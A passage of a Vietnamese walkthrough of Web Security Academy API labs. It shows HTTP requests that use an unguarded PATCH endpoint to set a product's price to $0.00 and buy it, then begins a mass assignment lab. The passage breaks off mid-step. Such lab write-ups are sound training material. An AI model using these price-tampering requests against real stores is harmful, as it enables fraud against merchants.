 ```http
HTTP/2 405 Method Not Allowed
Allow: GET, PATCH
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```
- Chỉ cho phép method **GET**, **PATCH**
- Gửi request với method **PATCH** để thay đổi giá món hàng về `$0.00`
  - Thay đổi method sang **PATCH**
  - **Content-Type:** `application/json`
  - Quan sát **response** ban đầu ta sẽ thấy key **price** được trả về, thử gửi với key **price** dạng **json**

```http
PATCH /api/products/1/price HTTP/2
Host: 0aab006403c8d279809f856f00d500a6.web-security-academy.net
...
{"price": 0}
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

{"price":"$0.00"}
```
- Đã thay đổi được giá => mua với giá `$0.00`

### Lab: Exploiting a mass assignment vulnerability
- Login bằng account `wiener` => `nghèo kiết xác`
- Thực hiện mua hàng => `INSUFFICIENT_FUNDS`
- Thay đổi **path** đến `/api` => chỉ có **POST** và **GET** checkout
- **POST request checkout**

```http
POST /api/checkout HTTP/2
Host: 0afa007d04d4c5a8815239e1005f002a.web-security-academy.net
...
{
  "chosen_products":[
    {
      "product_id":"1",
      "quantity":1
    }
  ]
}
```
- **Get request chekcout**
